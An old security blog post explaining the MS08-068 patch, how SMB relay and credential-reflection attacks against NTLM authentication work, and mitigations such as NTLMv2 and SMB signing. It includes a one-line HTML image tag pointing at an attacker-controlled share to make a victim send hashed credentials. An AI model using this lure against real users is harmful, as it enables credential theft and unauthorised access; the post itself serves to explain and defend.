 ```yaml
---
id: 121
title: 'ms08-068 &#8212; Preventing SMBRelay Attacks'
date: '2008-11-12T12:30:48-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=121'
permalink: '/?p=121'
---
```


Microsoft released ms08-068 this week, which fixes a vulnerability that's been present and documented since 2001. I'm going to write a quick overview of it here, although you'll probably get a better one by reading [The Metasploit Blog](http://blog.metasploit.com/2008/11/ms08-067-metasploit-and-smb-relay.html).

Keep in mind that there is a lot of fun stuff that can be done with the SMB protocol. I'm going to talk about a few different design flaws right now, and point out exactly what ms08-068 patches. Hang on, though, this is going to get somewhat technical. The payoff, however, is that this is incredibly interesting stuff, and I'm happy to clear up any technical confusion. Just leave me a comment or an email!

I have talked about how [Lanman and NTLM](http://www.skullsecurity.org/blog/?p=34) work (or fail to work) in the past, so I'll assume you've read that and just post a quick overview here. Basically, Lanman and NTLM will hash your password using their respective algorithms (and store the hashes on the system), then hash it again based on the server's 8-byte challenge. This second hash is the same for Lanman and NTLM -- it takes the hash already generated, splits it into three 7-byte chunks (padding it to 21 bytes), and encrypting the server challenge with each of those chunks. If an attacker already has access to the Lanman and NTLM hashes, then the game has already been won (the hashes can be directly used to log in).

The primary advantage to having a server challenge is to prevent pre-computed attacks (that is, it provides salt-like value to prevent rainbow tables-style precomputation attacks against the algorithm). Naturally, a malicious server can send a known challenge and generate tables based on that. This type of attack has been fixed in NTLMv2 (since the client provides part of the randomness).

A SMB Relay attack is a type of man-in-the-middle attack where the attacker asks the victim to authenticate to a machine controlled by the attacker, then relays the credentials to the target. The attacker forwards the authentication information both ways, giving him access. Here are the players in this scenario:

- The **attacker** is the person trying to break into the target
- The **victim** is the person who has the credentials
- The **target** is the system the attacker wants access to, and that the victim has credentials for

And here's the scenario (see the image at the right for a diagram):  
![](http://www.skullsecurity.org/blogdata/ms08-068-1.png)

1. Attacker tricks the victim into connecting to him; this is easy, I'll explain how later
2. Attacker establishes connection to the target, receives the 8-byte challenge
3. Attacker sends the 8-byte challenge to victim
4. Victim responds to the attacker with the password hash
5. Attacker responds to the target's challenge with the victim's hash
6. Target grants access to attacker

In the case of Metasploit, the attacker goes on to upload and execute shellcode, but that process isn't important, and it's discussed on the Metasploit blog posting.

Now, as an attacker, we have two problems: the victim needs to initiate a connection to the attacker, and the victim needs to have access to the target.

The first problem is easy to solve -- to initiate a session, send the user a link that goes to the attacker's machine. For example, send them to a Web site containing the following code:

```
<img src="\AttackerSHAREfile.jpg">
```

Their browser will attempt to connect to a share on the attacker called "SHARE", during which a session will be established. The victim's machine will automatically send the current credentials, hashed with whatever challenge is sent by the attacker (naturally, it's the target's challenge). This can be delivered to them through an email link, through a stored cross-site scripting attack, by some sneaky vandalism, or by any number of ways.

Other ways to do this include DNS poisoning, ARP spoofing, \[url=http://www.skullsecurity.org/blog/?p=6\]NetBIOS poisoning\[/url\], and any number of other ways. Suffice to say, it's pretty easy to trick the victim.

The second trick is that the victim needs to have access to the target. This one is slightly more difficult, but it can happen in a number of ways:

- In a domain scenario, the user's domain account may have access to multiple machines, including the target
- In other scenarios, users are well known to synchronize their password between machines. The target may have the same password as the victim, which would make the attack work
- The target may be the *same physical machine as the victim*

That third point is the interesting one -- this can be used to exploit the computer itself! So, in that scenario, here are the modified steps (see the image at the right, although I think it's probably more confusing :) ):  
![](http://www.skullsecurity.org/blogdata/ms08-068-2.png)

1. Attacker tricks the victim into connecting to him
2. Attacker establishes connection back to the victim, receives the 8-byte challenge
3. Attacker sends the victim's 8-byte back
4. Victim responds to the attacker with the password hash that'll give the attacker access to the victim's own computer
5. Attacker responds to the victim's challenge with the victim's hash
6. Victim grants access to attacker

Hopefully that isn't too confusing. What it essentially means is that the victim will grant access to the attacker using its own credentials.

And this particular attack is what ms08-068 patches!

To put it another way: ms08-068 patches an attack (discovered in 2001) where a victim is tricked into giving an attacker access to connect to itself.

## Mitigation

I talked a lot about vulnerabilities in the SMB protocol. Unfortunately, ms08-068 only fixes one of them. The issue is that the others are design flaws and can't be fixed without breaking clients. That being said, even though Microsoft can't fix them, you can fix them yourself, more or less, at the cost of potentially breaking clients (these can be done with local/domain security policies or registry hacks; search for them to find information):

- Enable (and require) NTLMv2 authentication -- this will prevent pre-computed attacks, because the client provides part of the randomness
- Enable (and require) message signing for both clients and servers -- this will prevent relay attacks
- Install ms08-068 -- this will prevent a specific subset of relay attacks, where its relayed back to itself

Hope that helps!

And, as usual, if you have any questions feel free to track me down.

Ron